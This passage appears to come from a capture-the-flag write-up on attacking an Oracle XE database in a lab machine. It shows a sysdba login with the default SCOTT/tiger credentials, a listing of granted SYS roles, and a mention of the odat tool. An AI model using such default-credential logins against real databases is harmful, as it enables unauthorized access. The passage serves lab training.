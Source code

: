 

    root@kali# sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba
    ...snip...
    SQL> select * from user_role_privs;

    USERNAME                       GRANTED_ROLE                   ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
    SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
    SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
    SYS                            AQ_USER_ROLE                   YES YES NO
    SYS                            AUTHENTICATEDUSER              YES YES NO
    SYS                            CONNECT                        YES YES NO
    SYS                            CTXAPP                         YES YES NO
    SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
    SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
    SYS                            DBA                            YES YES NO
    SYS                            DBFS_ROLE                      YES YES NO

    USERNAME                       GRANTED_ROLE                   ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SYS                            DELETE_CATALOG_ROLE            YES YES NO
    SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
    SYS                            EXP_FULL_DATABASE              YES YES NO
    SYS                            GATHER_SYSTEM_STATISTICS       YES YES NO
    SYS                            HS_ADMIN_EXECUTE_ROLE          YES YES NO
    SYS                            HS_ADMIN_ROLE                  YES YES NO
    SYS                            HS_ADMIN_SELECT_ROLE           YES YES NO
    SYS                            IMP_FULL_DATABASE              YES YES NO
    SYS                            LOGSTDBY_ADMINISTRATOR         YES YES NO
    SYS                            OEM_ADVISOR                    YES YES NO
    SYS                            OEM_MONITOR                    YES YES NO

    USERNAME                       GRANTED_ROLE                   ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SYS                            PLUSTRACE                      YES YES NO
    SYS                            RECOVERY_CATALOG_OWNER         YES YES NO
    SYS                            RESOURCE                       YES YES NO
    SYS                            SCHEDULER_ADMIN                YES YES NO
    SYS                            SELECT_CATALOG_ROLE            YES YES NO
    SYS                            XDBADMIN                       YES YES NO
    SYS                            XDB_SET_INVOKER                YES YES NO
    SYS                            XDB_WEBSERVICES                YES YES NO
    SYS                            XDB_WEBSERVICES_OVER_HTTP      YES YES NO
    SYS                            XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO

    32 rows selected.



Similarly with `odat`, running the `all` scan shows nothing that can be
done, but passing in the `--sysdba` flag changes all of that:


